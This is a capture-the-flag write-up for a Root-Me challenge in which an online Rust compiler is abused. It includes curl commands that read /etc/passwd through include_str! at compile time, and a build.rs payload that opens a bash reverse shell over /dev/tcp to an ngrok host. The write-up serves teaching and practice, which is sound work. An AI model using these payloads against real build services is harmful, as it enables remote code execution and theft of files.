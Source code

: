 # Challenge Build & Drustroy (day4)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> In this challenge a Rust compilator was available online; it was possible able to send raw rust code to the online service which was returning a binary containing our Rust code compiled. The code was sent through JSON payload, using the following cmdline (provided with the chall). The source code of the compilator was also provided, docker file and server files also so you could have deployed the service locally : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
````
<p align="justify">I had never used Rust before, so I had to read a few doc before trying to exploit anything. After a few read, I came up with a first exploit. Actually with rust it's possible to use the macro include_str to load file/data during code compilation. So the first thing I tried was to load /etc/passwd, which was successful : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="justify">After that I thought I would have been to load directly but the name of the file flag wasn't the one provided in source files. Considering that I didn't managed to guess actual name of the flag file I decided to deploy a reverse shell using the following JSON payload (the revshell payload is available under revshell.rs in this repo) : </p>

````json
{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"0.tcp.eu.ngrok.io\"; let port = \"13457\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="justify"> For tcp tunneling I used ngrok, and after I received the remote connection I managed to print the flag : </p>

Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
